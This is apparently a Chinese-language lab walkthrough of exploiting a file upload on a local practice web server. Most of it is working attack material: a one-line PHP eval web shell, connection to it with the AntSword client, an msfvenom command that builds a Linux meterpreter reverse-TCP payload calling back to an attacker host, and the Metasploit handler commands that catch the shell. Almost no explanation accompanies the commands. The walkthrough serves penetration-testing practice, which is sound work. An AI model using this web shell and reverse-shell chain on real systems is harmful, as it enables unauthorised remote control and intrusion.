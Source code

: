 ```
<?php @eval($_POST["xxb"]);?>
```

木马文件名为xxb.php

![image-20211224131438934](https://gitee.com/xxb667/img/raw/master/img/image-20211224131438934.png)

### 用蚁剑进行连接

```
http://192.168.1.9/01/hackable/uploads/xxb.php
```

![image-20211224131310552](https://gitee.com/xxb667/img/raw/master/img/image-20211224131310552.png)

连接成功后进入界面

![image-20211224131628811](https://gitee.com/xxb667/img/raw/master/img/image-20211224131628811.png)

### 用kali生成木马文件

```
 msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.38 LPORT=4444 -b "\x00" -f elf -o /home/xxb1/123
```

开启kali的apache服务

```
systemctl start apache2
```

kali设置监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.38
set LPORT 4444
exploit
```

![image-20211224132107558](https://gitee.com/xxb667/img/raw/master/img/image-20211224132107558.png)



### 用蚁剑上传木马文件

![image-20211224132248942](https://gitee.com/xxb667/img/raw/master/img/image-20211224132248942.png)

### 用kali进行监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.38
set LPORT 4444
exploit
```
